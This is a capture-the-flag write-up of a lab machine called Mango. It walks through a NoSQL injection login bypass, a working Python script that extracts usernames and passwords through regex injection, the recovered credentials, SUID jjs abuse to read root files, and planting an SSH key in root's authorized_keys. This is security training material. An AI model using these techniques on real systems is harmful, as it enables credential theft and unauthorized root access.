






## Nmap
```console
root@kali:~# nmap -sC -sV 10.10.10.162
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-17 19:19 EDT
Nmap scan report for 10.10.10.162
Host is up (0.96s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.39 seconds
```
http://10.10.10.162 is forbidden and   
https://10.10.10.162 is mango search page with only analytics.php link which itself is just a show page and contains nothing useful  

## /etc/hosts
going through the nmap result we can see "commonName=staging-order.mango.htb"  
commonName is generallly the domain name so we should visit this subdomain  
but only way to visit it is adding it in the /etc/hosts file because there is no way to go to a subdomain using IP address
so lets change the /etc/hosts file and visit staging-order.mango.htb  



## NoSQL Injection
visiting staging-order.mango.htb we get a login page  
the name of the box suggests that its using MongoDB so we can try some NoSQL injection on the login page  
so we can fire up burp suite and try the most basic NoSQL injection from PayloadAllTheThings  
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection  

so i changed this 
```
username=admin&password=admin&login=login
```
to
```
username[$ne]=admin&password[$ne]=admin&login=login
```
in burp suite



great we got in, we are redirected to home.php which is under construction page and has nothing useful  



but we know that NoSQL worked so we can try to get the usernames and passwords  
so lets write a script to do so  

```python3
#!/usr/bin/python3

import requests
from string import printable, ascii_lowercase

url = "http://staging-order.mango.htb/index.php"

s = requests.Session()

data = {'username[$regex]':'', 'password[$regex]':'', 'login':'login'}

def getUsers():
	users = []
	for i in ascii_lowercase:
		data['username[$regex]'] = '^'+i
		r = s.post(url, data)
		if "home" in r.url:
			currentUser = i
			print(currentUser)
			flag = 0
			while True:
				if flag == 1:
					break
				for j in ascii_lowercase:
					data['username[$regex]'] = '^' + currentUser + j
					r = s.post(url, data)
					if "home" in r.url:
						currentUser += j
						print(currentUser)
						break
					elif j == ascii_lowercase[-1]:
						print("User Found: " + currentUser, end='\n\n')
						flag = 1
						break
			users += [currentUser]
	return users

def getPassword(user):
	escapeCharacters = """!"#$%&'()*+,-./:;<=>?@[\\]^_`{|}~"""
	data['username[$regex]'] = user
	currentPassword = ''
	flag = 0
	while True:
		if flag == 1:
			break
		for i in printable:
			if i in escapeCharacters:
				data['password[$regex]'] = '^' + currentPassword + '\\' + i
			else:
				data['password[$regex]'] = '^' + currentPassword + i
			r = s.post(url, data)
			if "home" in r.url:
				currentPassword += i
				print(currentPassword)
				break
			elif i == printable[-1]:
				print("Password Found =======> "+user+':'+currentPassword, end='\n\n')
				flag = 1
				break
	return currentPassword

print("===============USERS====================")
usersFound = getUsers()
print('')

print("================PASSWORD=================")
for user in usersFound:
	password = getPassword(user)
```

we found 2 users and their passwords  
admin:t9KcS3>!0B#2  
mango:h3mXK8RhU~f{]f5H  



## SSH with creds
lets try to ssh with the credentials found  
i was not able to ssh as admin but mango credentials worked  
but there was not user.txt in /home/mango  
so i tried 'su admin' with admin's password found above and it worked  
```console
root@kali:~/Desktop/HTB# ssh mango@10.10.10.162                                                                                                                                                               [4/4]
mango@10.10.10.162's password:                                                                                                                                                                                     
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-64-generic x86_64)                                                                                                                                                 
                                                                                                                                                                                                                   
 * Documentation:  https://help.ubuntu.com                                                                                                                                                                         
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Mar 19 05:36:41 UTC 2020

  System load:  0.86               Processes:            103
  Usage of /:   25.8% of 19.56GB   Users logged in:      0
  Memory usage: 14%                IP address for ens33: 10.10.10.162
  Swap usage:   0%

 * Kata Containers are now fully integrated in Charmed Kubernetes 1.16!
   Yes, charms take the Krazy out of K8s Kata Kluster Konstruction.

     https://ubuntu.com/kubernetes/docs/release-notes

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

122 packages can be updated.
18 updates are security updates.


Last login: Mon Sep 30 02:58:45 2019 from 192.168.142.138
mango@mango:~$ ls
mango@mango:~$ ls -al
total 28
drwxr-xr-x 4 mango mango 4096 Sep 28 15:27 .
drwxr-xr-x 4 root  root  4096 Sep 27 14:02 ..
lrwxrwxrwx 1 mango mango    9 Sep 27 14:31 .bash_history -> /dev/null
-rw-r--r-- 1 mango mango  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 mango mango 3771 Apr  4  2018 .bashrc
drwx------ 2 mango mango 4096 Sep 28 15:27 .cache
drwx------ 3 mango mango 4096 Sep 28 15:27 .gnupg
-rw-r--r-- 1 mango mango  807 Apr  4  2018 .profile
mango@mango:~$ ls /home
admin  mango
mango@mango:~$ su admin
Password: 
$ whoami
admin
$ python3 -c "import pty; pty.spawn('/bin/bash');"
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@mango:/home/mango$ cd /home/admin/
admin@mango:/home/admin$ ls
user.txt
admin@mango:/home/admin$ cat user.txt 
79bf31c6c6eb38a8567832f7f8b47e92
```
so i got the user.txt  
but for some reason if we only found mango user from the python script  
then we can use mongodb shell to get the password for admin user  



# PrivEsc
## SUID
now lets try to get root shell  
i went through the files in /var/www/staging but there was nothing particularly interesting  
so i searched for SUID binaries using find and found jjs which has a gtfobins page  
https://gtfobins.github.io/gtfobins/jjs/
```console
admin@mango:/home/admin$ find / -perm -4000 2>/dev/null                                                                                                                                                            
/bin/fusermount                                                                                                                                                                                                    
/bin/mount                                                                                                                                                                                                         
/bin/umount
/bin/su
/bin/ping
/snap/core/7713/bin/mount
/snap/core/7713/bin/ping
/snap/core/7713/bin/ping6
/snap/core/7713/bin/su
/snap/core/7713/bin/umount
/snap/core/7713/usr/bin/chfn
/snap/core/7713/usr/bin/chsh
/snap/core/7713/usr/bin/gpasswd
/snap/core/7713/usr/bin/newgrp
/snap/core/7713/usr/bin/passwd
/snap/core/7713/usr/bin/sudo
/snap/core/7713/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/7713/usr/lib/openssh/ssh-keysign
/snap/core/7713/usr/lib/snapd/snap-confine
/snap/core/7713/usr/sbin/pppd
/snap/core/6350/bin/mount
/snap/core/6350/bin/ping
/snap/core/6350/bin/ping6
/snap/core/6350/bin/su
/snap/core/6350/bin/umount
/snap/core/6350/usr/bin/chfn
/snap/core/6350/usr/bin/chsh
/snap/core/6350/usr/bin/gpasswd
/snap/core/6350/usr/bin/newgrp
/snap/core/6350/usr/bin/passwd
/snap/core/6350/usr/bin/sudo
/snap/core/6350/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/6350/usr/lib/openssh/ssh-keysign
/snap/core/6350/usr/lib/snapd/snap-confine
/snap/core/6350/usr/sbin/pppd
/usr/bin/newuidmap
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/newgidmap
/usr/bin/run-mailcap
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/at
/usr/bin/traceroute6.iputils
/usr/bin/pkexec
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine

admin@mango:/home/admin$ cd /usr/lib/jvm/java-11-openjdk-amd64/bin/

admin@mango:/usr/lib/jvm/java-11-openjdk-amd64/bin$ ls -al
total 188
drwxr-xr-x 2 root root    4096 Sep 27 14:15 .
drwxr-xr-x 7 root root    4096 Sep 27 14:15 ..
-rwxr-xr-x 1 root root   10296 Jul 18  2019 java
-rwsr-sr-- 1 root admin  10352 Jul 18  2019 jjs
-rwxr-xr-x 1 root root   10320 Jul 18  2019 keytool
-rwxr-xr-x 1 root root   10320 Jul 18  2019 pack200
-rwxr-xr-x 1 root root   10320 Jul 18  2019 rmid
-rwxr-xr-x 1 root root   10320 Jul 18  2019 rmiregistry
-rwxr-xr-x 1 root root  107408 Jul 18  2019 unpack200
```

## gtfobins
looking through the gtfobins page for jjs i figured we can directly read /root/root.txt  



```console
admin@mango:/usr/lib/jvm/java-11-openjdk-amd64/bin$ jjs
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> var BufferedReader = Java.type("java.io.BufferedReader");
jjs> var FileReader = Java.type("java.io.FileReader");
jjs> var br = new BufferedReader(new FileReader("/root/root.txt"));
jjs> while ((line = br.readLine()) != null) { print(line); }
8a8ef79a7a2fbb01ea81688424e9ab15
jjs> 
```

later i found out that there is an easier way than given on gtfobins page  
if we run jjs with "-scripting" tag then we can directly run bash commands  
```console
admin@mango:/usr/lib/jvm/java-11-openjdk-amd64/bin$ jjs -scripting
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> $EXEC("cat /root/root.txt");
8a8ef79a7a2fbb01ea81688424e9ab15
jjs> 
```

## Getting root shell via SSH keys
we got root.txt but to get a root shell we have to do something more  
we know we can write files as root so we can add our ssh keys and then ssh as root  
for writing in a file we can either use commands given on gtfobins or directly use bash commands  

first create RSA keys using ssh-keygen  
```console
root@kali:~/Desktop/HTB/activeMachines/Linux/Mango# ssh-keygen                                                                                                                                                     
Generating public/private rsa key pair.                                                                                                                                                                            
Enter file in which to save the key (/root/.ssh/id_rsa): ./sshRootKeys/id_rsa                                                                                                                                      
Enter passphrase (empty for no passphrase):                                                                                                                                                                        
Enter same passphrase again:                                                                                                                                                                                       
Your identification has been saved in ./sshRootKeys/id_rsa.                                                                                                                                                        
Your public key has been saved in ./sshRootKeys/id_rsa.pub.                                                                                                                                                        
The key fingerprint is:                                                                                                                                                                                            
SHA256:9HYpywj0CJCCcW00ljMC910ZBr8KYU5G8GUjmgNX36Y root@kali                                                                                                                                                       
The key's randomart image is:                                                                                                                                                                                      
+---[RSA 3072]----+                                                                                                                                                                                                
|=o**B.=.+o       |                                                                                                                                                                                                
|o=oO*B *.        |                                                                                                                                                                                                
| .+oOo+ =        |                                                                                                                                                                                                
|   * + * o   .   |                                                                                                                                                                                                
|    o E S + o    |                                                                                                                                                                                                
|     . o + +     |                                                                                                                                                                                                
|      . . o      |                                                                                                                                                                                                
|                 |                                                                                                                                                                                                
|                 |                                                                                                                                                                                                
+----[SHA256]-----+
```

now write the public key (id_rsa.pub) in /root/.ssh/authorized_keys using jjs  
```console
admin@mango:/usr/lib/jvm/java-11-openjdk-amd64/bin$ jjs -scripting
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> $EXEC("echo 'ssh-rsa AAAAB3NzaC1yc2......EAAAADAQABx0= root@kali' > /root/.ssh/authorized_keys");
jjs>
```

now we can ssh as root using the id_rsa key we generated using ssh-keygen  
```console
root@kali:~/Desktop/HTB/activeMachines/Linux/Mango# ssh -i sshRootKeys/id_rsa root@10.10.10.162
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-64-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Mar 19 11:41:35 UTC 2020

  System load:  0.04               Processes:            116
  Usage of /:   26.4% of 19.56GB   Users logged in:      1
  Memory usage: 34%                IP address for ens33: 10.10.10.162
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

122 packages can be updated.
18 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Thu Oct 10 08:33:27 2019
root@mango:~# ls
root.txt
root@mango:~# cat root.txt 
8a8ef79a7a2fbb01ea81688424e9ab15
```


